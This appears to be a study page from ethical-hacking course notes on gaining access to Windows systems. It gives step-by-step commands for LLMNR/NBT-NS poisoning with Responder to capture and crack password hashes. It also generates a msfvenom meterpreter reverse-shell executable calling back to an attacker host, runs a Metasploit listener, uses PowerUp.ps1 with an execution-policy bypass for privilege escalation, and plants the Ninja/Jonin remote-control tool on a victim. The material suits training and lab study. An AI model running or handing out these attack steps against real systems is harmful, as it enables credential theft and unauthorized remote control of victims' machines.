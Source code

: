 # Gain Access

first step in system hacking is to gain access to a target system using information obtained and loopholes found in the system’s access control mechanism. With this step, you will use various techniques such as password cracking, vulnerability exploitation, and social engineering to gain access to the target system.

Vulnerability exploitation involves the execution of multiple complex, interrelated steps to gain access to a remote system. Attackers use discovered vulnerabilities to develop exploits, deliver, and execute the exploits on the remote system.

***

## Active Online Attack to crack the System's Password using Responder

**LLMNR** (Link Local Multicast Name Resolution) and **NBT-NS** (NetBIOSNameService) are two main elements of Windows OSes that are used to perform name resolution for hosts present on the same link. These services are enabled by default in Windows OSes and can be used to extract the password hashes from a user.&#x20;

By listening for LLMNR/NBT-NS broadcast requests, an attacker can spoof the server and send a response claiming to be the legitimate server. After the victim system accepts the connection, it is possible to gain the victim’s user-credentials by using a tool such as Responder.py.

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

{% embed url="https://github.com/lgandx/Responder" %}

### Set up Responder

```
sudo responder -I [interface]
```

* -I: Specifies the interface, check the interface issue **ifconfig** command.

The attack will success if a user try to access the AD. The access logs of target machine will be captured and collects the hashes of the logged in user of the target machine. Responder kept their logs in /usr/share/responder/logs. Copy the hash value of user x, create a file name hash.txt and run password cracking tools name John the ripper or hashcat to crack the password.

***

## Find Vulnerabilities on Exploit Sites

Exploit sites contain the details of the latest vulnerability of various OSes, devices, and applications. You can use these sites to find relevant vulnerabilities about the target system based on the information gathered, and further download the exploits from the database and use exploitation tools such as Metasploit, to gain remote access.

{% embed url="https://www.exploit-db.com/" %}

{% embed url="https://vuldb.com/" %}

{% embed url="https://cve.mitre.org/" %}

{% embed url="https://vulners.com/" %}

{% embed url="https://cve.circl.lu/" %}

***

## Exploit Client-side Vulnerabilities and Establish a VNC session

Attackers use client-side vulnerabilities to gain access to the target machine. VNC(Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organization throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.

### Generate a malicious file

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.1.13 LPORT=4444 -o /home/attacker/Desktop/Test.exe
```

### Send the malicious payload to the target.

### Set up listener, could use metasploit

```
use exploit/multi/handler
set windows/meterpreter/reverse_tcp
set LHOST VALUE
set LPORT VALUE
exploit
```

### After the app running and get the session

```
sessions -i 1
```

### Upload PowerUp.ps1

PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.

```
upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
```

### change shell session

could change the shell session &#x20;

```
shell
```

### Check for misconfigured service

The result will displaying **Check** and **AbuseFunction** that the attacker can exploit the misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges.

```
powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"
```

### Running the vnc

back to meterpreter shell and exploit the VNC vulnerability.

```
run vnc
```

***

## Gain accessto a remote system using Ninja Jonin

Ninja Jonin is a combination of two tools; **Ninja** is installed in victim machine and **Jonin** is installed on the attacker machine. The main functionality of the tool is to control a remote machine behind any NAT, Firewall, and Proxy.

### Attacker Machine

Extract **Jonin** zip and create a folder and extract **Ninja** zip in the same folder. Change the config located in folder **config**, on **Constant.json** change the **NAME** and **HOST** according to the victim. Start the listener, which is **Jonin.exe.** Make the zip and send it to the victim.&#x20;

### Victim Machine

Extract the zip and run the **ninja** file. Observe that the terminal will connect

### exploit

```
list # ensure have catch the reverse shell
connect 1 # connect the server
change
cmd # get the cmd session
ipconfig # check the ip address
#help # check for further action command such as upload and download file, etc.
```

***

##

